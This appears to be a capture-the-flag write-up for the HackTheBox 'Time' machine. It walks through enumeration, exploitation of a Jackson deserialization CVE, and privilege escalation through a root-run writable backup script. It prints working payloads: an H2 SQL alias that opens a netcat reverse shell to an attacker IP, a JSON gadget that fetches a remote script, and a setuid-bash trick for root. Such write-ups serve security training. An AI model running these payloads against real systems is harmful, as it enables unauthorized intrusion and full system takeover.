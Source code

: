 ```yaml
---
layout: post
title:  "HackTheBox - Time"
date:   2021-07-30 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Trying to validate anything on the webpage shows us this error:

```js
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'flf': was expecting 'null', 'true', 'false' or NaN
```
Sending a json object (eg: {"user":"admin"}) gives this error:

```js
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

# FOOTHOLD

[javascript deserialization CVE](https://github.com/jas502n/CVE-2019-12384/blob/master/CVE-2019-12384.sh)

Write this script:

```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ cat inject.sql 

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4242 >/tmp/f')         
```
And then we put the following to validate while simultameously listening in terminal via netcat:

```s

    "ch.qos.logback.core.db.DriverManagerConnectionSource",
    {
        "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.8:3000\/inject.sql'"
    }
]
```
And we get the reverse shell. Time to stabilize the shell then :)

We get the user flag in /home/pericles. Now its time for root.

# PRIVILEGE ESCALATION

Using pspy64s binary we see a suspicious script /usr/bin/timer_backup.sh , run by root and we have write access!

So I just add this command to the bottom of the script:

```s
echo "chmod +s /bin/bash" >> timer_backup.sh
```
So here's the full script:

```s
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
chmod +s /bin/bash
```
After this we wait a bit and execute the following to get the root flag:

```s
pericles@time:/usr/bin$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
backup.zip  root.txt  snap  timer_backup.sh
bash-5.0# cat root.txt
```

